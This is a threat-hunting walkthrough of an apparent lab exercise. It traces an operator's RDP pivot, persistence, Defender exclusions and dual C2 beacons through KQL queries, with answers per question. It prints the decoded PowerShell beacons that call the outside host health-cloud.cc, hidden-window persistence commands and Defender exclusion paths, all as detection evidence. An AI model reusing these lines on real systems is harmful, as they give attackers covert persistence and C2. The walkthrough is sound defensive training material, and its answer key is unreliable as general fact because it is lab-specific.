# Hunt Notes — Signal After The Noise

---

## P01 — Cold Trail (First Session)

**Finding:** First contact at 09:27:58 UTC from `173.244.55.131` (sarah-chen's machine) authenticating as `vmadminusername` to `azwks-phtg-02` via network logon. RDP session established at 09:41:11 UTC. sarah-chen is not a relay — her machine IS the operator's external launch point.

**Key Query:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-12-13T09:40:00Z) .. datetime(2025-12-13T18:00:00Z))
| where RemoteDeviceName contains "sarah"
| project TimeGenerated, DeviceName, AccountName, LogonType, RemoteIP, RemoteDeviceName
| order by TimeGenerated asc
```

**IOCs:**
- External IP: `173.244.55.131`
- Launch point: `sarah-chen`
- Account: `vmadminusername`
- Target: `azwks-phtg-02`


---

## P02 — First Footsteps (Earliest On-Host Activity)

**Finding:** At 09:48 the operator launched a pre-staged RDP file from the Downloads folder to pivot from `azwks-phtg-02` to `azwks-phtg-01`. The file was already present on disk — operator came prepared. CredentialUIBroker fired immediately after.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:27:00Z) .. datetime(2025-12-13T10:00:00Z))
| where DeviceName == "azwks-phtg-02"
| where AccountName == "vmadminusername"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

**IOCs:**
- Pre-staged file: `C:\Users\vmAdminUsername\Downloads\azwks-phtg-01 (1).rdp`
- Process: `mstsc.exe`
- Pivot target: `azwks-phtg-01`


---

## P03 — Quiet Roots (Persistence)

**Finding:** Operator installed a Startup LNK at 10:13 executing a hidden PowerShell script on every logon. Staging directory `C:\ProgramData\PHTG\HealthCloud\Cache\` contains all operator tooling. `cleanmgr.exe /autoclean` used for anti-forensic cleanup.

**Key Query:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2025-12-13T09:48:00Z) .. datetime(2025-12-13T11:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName == "vmadminusername"
| where ActionType == "FileCreated"
| where FileName contains "FLAG"
| project TimeGenerated, DeviceName, FileName, FolderPath, InitiatingProcessFileName
| order by TimeGenerated asc
```

**Persistence Mechanism:**
```powershell
LNK: C:\Users\vmAdminUsername\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\PHTG HealthCloud.lnk

Executes: PowerShell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\ProgramData\PHTG\HealthCloud\Cache\task_FLAG-05.ps1
```

**IOCs:**
- `PHTG HealthCloud.lnk`
- `task_FLAG-05.ps1`
- `PHGTHealthCloudSvc.exe`
- `C:\ProgramData\PHTG\HealthCloud\Cache\`


---

## P04 — The Beacon Pair (C2 Callouts)

**Finding:** Two Base64-encoded PowerShell payloads decoded to `Invoke-WebRequest` C2 check-ins. FLAG-09 hit `/api/checkin`, FLAG-10 hit `/api/status`. Output suppressed with `Out-Null`. Short 5-second timeout for silent failure.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T10:10:00Z) .. datetime(2025-12-13T10:20:00Z))
| where DeviceName == "azwks-phtg-01"
| where FileName == "powershell.exe" or FileName == "pwsh.exe"
| project TimeGenerated, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Decoded Payloads:**
```powershell
Invoke-WebRequest -Uri "https://status.health-cloud.cc/api/checkin?flag=FLAG-09&device=azwks-phtg-01" -UseBasicParsing -TimeoutSec 5 | Out-Null

Invoke-WebRequest -Uri "https://status.health-cloud.cc/api/status?flag=FLAG-10&device=azwks-phtg-01" -UseBasicParsing -TimeoutSec 5 | Out-Null
```

**IOCs:**
- `status.health-cloud.cc`
- `updates.health-cloud.cc`
- `-EncodedCommand` (obfuscation)


---

## P05 — Outbound Whispers (Where Traffic Went)

**Finding:** Both beacons confirmed reaching Cloudflare-fronted IPs on port 443/TLS. DNS resolved via Azure internal resolver. Two subdomains split C2 functions — `updates` for tasking, `status` for check-in.

**Key Query:**
```kql
DeviceNetworkEvents
| where TimeGenerated between (datetime(2025-12-13T10:12:00Z) .. datetime(2025-12-13T10:16:00Z))
| where DeviceName == "azwks-phtg-01"
| where RemoteUrl contains "health-cloud" or RemoteIP != ""
| project TimeGenerated, DeviceName, ActionType, RemoteIP, RemoteUrl, RemotePort, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**C2 Infrastructure:**
```
health-cloud.cc
├── updates.health-cloud.cc → 104.21.36.232 (Cloudflare)
└── status.health-cloud.cc  → 172.67.200.204 (Cloudflare)
```

**IOCs:**
- `104.21.36.232`
- `172.67.200.204`
- Port `443` / TLS


---

## P06 — Doors Held Open (Defence Evasion)

**Finding:** `amsi_probe.ps1` tested AMSI coverage. Operator added Defender path exclusions for `Documents\PHTG` and the Cache directory, plus a process exclusion for `PHGTHealthCloudSvc.exe`. All written via `msmpeng.exe` — Defender blinded itself to the operator's entire toolset.

**Key Query:**
```kql
DeviceRegistryEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where RegistryKey contains "Defender"
| project TimeGenerated, ActionType, RegistryKey, RegistryValueName, RegistryValueData, InitiatingProcessFileName
| order by TimeGenerated asc
```

**Registry Changes:**
```powershell
HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths → C:\Users\vmAdminUsername\Documents\PHTG
HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths → C:\ProgramData\PHTG\HealthCloud\Cache
HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Processes → C:\ProgramData\PHTG\HealthCloud\PHGTHealthCloudSvc.exe
```

**IOCs:**
- `amsi_probe.ps1`
- `msmpeng.exe` (writing its own exclusions)
- `PHGTHealthCloudSvc.exe`


---

## P07 — Hands on the Vault (Final Actions)

**Finding:** `phtg_activity.ps1` drove Edge to `login.microsoftonline.com` repeatedly — operator targeting M365 authentication. At 15:55 operator went hands-on-keyboard launching notepad, calc, and mspaint interactively confirming live desktop access. Scheduled task persistence confirmed firing independently at 13:40 and 15:55 without active RDP session.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T10:30:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where AccountName == "vmadminusername"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

**Timeline:**

| Time | Event |
|---|---|
| 10:40 | `msedge` → `login.microsoftonline.com` (M365 auth attempt) |
| 13:40 | `phtg_activity.ps1` fires via scheduled task (persistence confirmed) |
| 15:55 | `notepad.exe`, `calc.exe`, `mspaint.exe` — hands-on-keyboard confirmed |
| 17:00 | Activity still ongoing |

**IOCs:**
- `C:\Lab\phtg_activity.ps1`
- `login.microsoftonline.com`
- `msedge.exe` (operator-driven)


---

## Q01 — The Brute Force Assumption

**Finding:** Failed logons showed `UnauthorizedLogonType` — not wrong passwords. Credentials were valid from the start. Operator authenticated as `vmadminusername` FROM sarah-chen's machine. No brute force indicators (no username variation, no multiple source IPs on failures).

**Key Query:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T09:28:00Z))
| where DeviceName == "azwks-phtg-02"
| where ActionType == "LogonFailed"
| project TimeGenerated, AccountName, LogonType, RemoteIP, FailureReason
| order by TimeGenerated asc
```

**MITRE:** T1078 — Valid Accounts  
**Answer:** `credential reuse`


---

## Q02 — Lateral Movement Summary

**Finding:** At 09:48 operator used `mstsc.exe` with a pre-staged RDP file to move from `azwks-phtg-02` to `azwks-phtg-01`. Source IP is the internal IP of phtg-02.

**Key Query:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where RemoteIP == "10.0.0.152"
| project TimeGenerated, DeviceName, AccountName, LogonType, RemoteIP, RemoteDeviceName
| order by TimeGenerated asc
```

**MITRE:** T1021 — Remote Services (RDP)  
**Answer:** `vmadminusername, 10.0.0.152, azwks-phtg-01`


---

## Q03 — Onward Movement Check

**Finding:** Operator did not pivot further from `azwks-phtg-01` (10.0.0.105) to any other host. Lateral movement stopped at the second hop.

**Key Query:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-12-13T09:48:00Z) .. datetime(2025-12-13T18:00:00Z))
| where RemoteIP == "10.0.0.105"
| project TimeGenerated, DeviceName, AccountName, LogonType, RemoteIP, RemoteDeviceName
| order by TimeGenerated asc
```

**Answer:** `None` — no further lateral movement detected.



---

## Q04 — First Operator Script

**Hunt Lead:** "After lateral movement, what's the first script the operator launched under their own account context? Full path."

**Finding:** The first script launched under the operator's account context was a hidden PowerShell script run from the user-profile PHTG directory.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:48:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where AccountName == "vmadminusername"
| where FileName == "powershell.exe"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
| take 1
```

**MITRE:** T1059.001 — PowerShell  
**Answer:** `C:\Users\vmAdminUsername\Documents\PHTG\_.ps1`


---

## Q05 — Operator Concealment Flags

**Hunt Lead:** "Look at the command line that invoked the Q04 script. Two PowerShell flags signal operator intent. Name both, with their values."

**Finding:** The operator ran all scripts with flags designed to hide execution from the user and bypass security controls.

**Answer:**
```powershell
-WindowStyle Hidden
-ExecutionPolicy Bypass
```

**MITRE:** T1564.003 — Hidden Window  



---

## Q06 — Staging Directory

**Hunt Lead:** "Where did the operator stage their tooling? I want the root directory under ProgramData, not the user-profile path. Three subdirectories sit underneath it."

**Finding:** All operator tooling was staged under a directory masquerading as a legitimate health-cloud software installation.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:48:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where AccountName == "vmadminusername"
| where ProcessCommandLine contains "-File"
| project TimeGenerated, FileName, ProcessCommandLine
| order by TimeGenerated asc
| take 5
```

**MITRE:** T1036 — Masquerading  
**Answer:** `C:\ProgramData\PHTG\HealthCloud`



---

## Q07 — Concealment Pattern

**Hunt Lead:** "The operator used attrib to hide artefacts across the HealthCloud workspace. Two top-level staging directories under it took the bulk of the hiding. Name both, give the count of attribute modifications bucketed to each, and say which got the heavier treatment."

**Finding:** The operator applied hidden+system attributes across two subdirectories, with the primary tooling cache receiving significantly more treatment.

**Key Queries:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where FileName == "attrib.exe"
| project TimeGenerated, ProcessCommandLine
| order by TimeGenerated asc
```
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where FileName == "attrib.exe"
| extend Dir = case(
    ProcessCommandLine contains "\\Cache\\", "Cache",
    ProcessCommandLine contains "\\TempCache\\", "TempCache",
    "other")
| summarize Count = count() by Dir
| order by Count desc
```

**MITRE:** T1564 — Hide Artifacts  
**Answer:** `Cache` (17 modifications) and `TempCache` (2 modifications) — Cache received the heavier treatment.




---

## Q08 — LOLBin Masquerade Identification

**Hunt Lead:** "Several processes on phtg-01 show FileName different to OriginalFileName. One is operator tooling. Name the executable, name what it claims to be, and explain how you separated it from the noise."

**Finding:** The implant spoofed a legitimate Windows binary using VersionInfo tampering. All other FileName/OriginalFileName mismatches were case-only variations of the same legitimate binary; only the operator's tool had a completely different OriginalFileName and ran from the staging path instead of a system directory.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where AccountName == "vmadminusername"
| where FileName != ProcessVersionInfoOriginalFileName
| where ProcessVersionInfoOriginalFileName != ""
| project TimeGenerated, FileName, ProcessVersionInfoOriginalFileName, FolderPath, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated desc
```

**MITRE:** T1036.003 — Rename System Utilities  
**Answer:** `PHtGHealthCloudSvc.exe` masqueraded as `bitsadmin.exe`


---

## Q09 — Registry Activity Volume

**Hunt Lead:** "Volume check. How many registry modification events fired under vmadminusername on phtg-01 AFTER lateral movement?"

**Finding:** High registry event volume is expected after lateral movement — the bulk is OS/application churn, not operator activity.

**Key Query:**
```kql
DeviceRegistryEvents
| where TimeGenerated > datetime(2025-12-13T09:48:00Z)
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName =~ "vmadminusername"
| count
```

**Answer:** `280`



---

## Q10 — Persistence Signal Isolation

**Hunt Lead:** "280 events is mostly noise: Desktop themes, MUI cache, COM CLSID re-registration. Filter the user-context churn out. Which registry path actually matters for persistence?"

**Finding:** Filtering out CLSID, MuiCache, and Themes leaves a small set of keys. The Run key stands out as operator-written rather than OS-generated.

**Key Query:**
```kql
DeviceRegistryEvents
| where TimeGenerated > datetime(2025-12-13T09:48:00Z)
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName =~ "vmadminusername"
| where RegistryKey !contains "CLSID"
| where RegistryKey !contains "MuiCache"
| where RegistryKey !contains "Themes"
| where RegistryKey contains "Run" or RegistryKey contains "Startup" or RegistryKey contains "Services" or RegistryKey contains "Schedule"
| project TimeGenerated, ActionType, RegistryKey, RegistryValueName, RegistryValueData
| order by TimeGenerated asc
```

**MITRE:** T1547.001 — Boot or Logon Autostart Execution: Registry Run Keys  
**Answer:** `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`


---

## Q11 — Run Key Value Name

**Hunt Lead:** "The Run key from Q10 carries multiple values. Edge auto-launch is legitimate. The operator's isn't. Which value name points to their tooling?"

**Finding:** Multiple RegistryValueSet writes on the Run key — most are `msedge.exe` auto-launch. One value points to a script in the ProgramData staging path.

**Key Query:**
```kql
DeviceRegistryEvents
| where TimeGenerated > datetime(2025-12-13T09:48:00Z)
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName =~ "vmadminusername"
| where RegistryKey contains "CurrentVersion\\Run"
| where ActionType == "RegistryValueSet"
| project TimeGenerated, RegistryKey, RegistryValueName, RegistryValueData
| order by TimeGenerated asc
```

**MITRE:** T1547.001  
**Answer:** `PHTGHealthCloudTray`


---

## Q12 — Run Key Persistence Command

**Hunt Lead:** "What's the full command the operator configured to run at user logon? RegistryValueData carries it."

**Finding:** The RegistryValueData for `PHTGHealthCloudTray` shows a hidden PowerShell invocation of a script from the `Bin` staging subdirectory — a different subdirectory from the Cache path used by other scripts.

**Key Query:**
```kql
DeviceRegistryEvents
| where TimeGenerated > datetime(2025-12-13T09:48:00Z)
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName =~ "vmadminusername"
| where RegistryKey contains "CurrentVersion\\Run"
| where ActionType == "RegistryValueSet"
| project TimeGenerated, RegistryKey, RegistryValueName, RegistryValueData
| order by TimeGenerated asc
```

**MITRE:** T1547.001  
**Answer:**
```powershell
powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -File "C:\ProgramData\PHTG\HealthCloud\Bin\HealthCloudTray.ps1"
```



---

## Q13 — Second Persistence Mechanism

**Hunt Lead:** "The Run key isn't the operator's only persistence. They dropped a second mechanism in a Windows folder that runs at logon. Find the artefact."

**Finding:** A `.lnk` file was created in the Startup folder — a second logon-triggered persistence mechanism operating independently of the Run key.

**Key Query:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where FolderPath contains "Startup"
| project TimeGenerated, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**MITRE:** T1547.001  
**Answer:** `PHTG HealthCloud.lnk`


---

## Q14 — Third Persistence Mechanism

**Hunt Lead:** "The operator made a system-level (HKLM) registry change on phtg-01. It's not persistence in the classic sense — it gives their tooling a different capability. Identify the key path."

**Finding:** The operator registered a custom EventLog source under HKLM, allowing the implant to write to the Windows Event Log under its own brand name — making activity blend into normal log streams.

**Key Query:**
```kql
DeviceRegistryEvents
| where TimeGenerated > datetime(2025-12-13T09:48:00Z)
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName =~ "vmadminusername"
| where RegistryKey startswith "HKEY_LOCAL_MACHINE"
| project TimeGenerated, ActionType, RegistryKey, RegistryValueName, RegistryValueData
| order by TimeGenerated asc
```

**MITRE:** T1112 — Modify Registry  
**Answer:** `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\EventLog\Application\PHTGHealthCloud`


---

## Q15 — Tooling Healthcheck Loop

**Hunt Lead:** "The masquerade binary from Q08 runs in a loop, beaconing with /healthcheck at regular short intervals. How many healthcheck executions fired during post-access activity?"

**Finding:** The implant ran a persistent beacon loop throughout the operator's session, checking in at short intervals to confirm the implant was still alive.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where ProcessVersionInfoOriginalFileName =~ "bitsadmin.exe"
| count
```

**MITRE:** T1071.001 — Application Layer Protocol: Web Protocols  
**Answer:** `22`


---

## Q16 — Encoded Beacon Endpoints

**Hunt Lead:** "Alongside the SvcExe healthcheck loop, the operator fired two encoded PowerShell beacons. Decode both. What endpoints did they contact? Report both in chronological order."

**Finding:** Both beacons used `-EncodedCommand` to hide their targets. `base64_decode_tostring()` in KQL recovers the full `Invoke-WebRequest` commands.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where ProcessCommandLine contains "EncodedCommand"
| project TimeGenerated, ProcessCommandLine
| order by TimeGenerated asc
```

**Decoded Payloads:**
```powershell
Invoke-WebRequest -Uri "https://status.health-cloud.cc/api/checkin?flag=FLAG-09&device=azwks-phtg-01" -UseBasicParsing -TimeoutSec 5 | Out-Null

Invoke-WebRequest -Uri "https://status.health-cloud.cc/api/status?flag=FLAG-10&device=azwks-phtg-01" -UseBasicParsing -TimeoutSec 5 | Out-Null
```

**MITRE:** T1027 — Obfuscated Files or Information, T1071 — Application Layer Protocol  
**Answer:** `status.health-cloud.cc/api/checkin` then `status.health-cloud.cc/api/status` — parent domain `health-cloud.cc`





---

## Q17 — Two Beacons, Why?

**Hunt Lead:** "The operator runs TWO beaconing mechanisms in parallel. The SvcExe healthcheck loop AND the encoded PowerShell beacons. Why? What's the operational benefit of running both?"

**Finding:** Dual-channel C2 is a deliberate operational decision — not redundancy for its own sake.

**MITRE:** T1090 — Proxy / Multi-hop C2  
**Answer:** Resiliency — if one channel is detected and cut, the operator maintains access via the other. The two channels also serve different functions (`/healthcheck` for implant liveness vs `/api/checkin` and `/api/status` for operator tasking), allowing each to be optimised independently without risking full C2 loss.



---

## Q18 — Deployment Pattern Recognition

**Hunt Lead:** "An outbound connection fires at 10:12:16. PHtGHealthCloudSvc.exe launches at 10:12:17. A 1-second gap. What deployment pattern is the operator using?"

**Finding:** The pre-staged PS1 script (`task_FLAG-01.ps1`) makes an outbound HTTPS call to `updates.health-cloud.cc` — this is the download step. One second later it launches the retrieved binary — this is the execute step. The script already existed on disk; the connection was not to download the script but to fetch the implant binary itself.

Answer:
```
Download then execute: a pre-staged PowerShell script makes an outbound HTTPS call to updates.health-cloud.cc to fetch PHtGHealthCloudSvc.exe (T1105 ingress tool transfer), then immediately launches the downloaded binary one second later — the PS1 script is the link between the two steps.

```

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T10:12:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| project TimeGenerated, ProcessCommandLine
| order by TimeGenerated asc
```

**MITRE:** T1105 — Ingress Tool Transfer  
**Answer:** Download then execute — a pre-staged PowerShell script calls out to `updates.health-cloud.cc` to fetch `PHtGHealthCloudSvc.exe` (T1105 ingress tool transfer), then immediately launches it; the outbound HTTPS connection is the link between the two steps.


---

## Q19 — Operator Outbound Domains

**Hunt Lead:** "What domains did the operator's PowerShell reach during post-access activity? List both in chronological order."

**Finding:** Filtering `DeviceNetworkEvents` to `powershell.exe` initiator and `ConnectionSuccess` cuts through the OneDrive/Edge baseline. Both operator domains share the `health-cloud.cc` TLD.

**Key Query:**
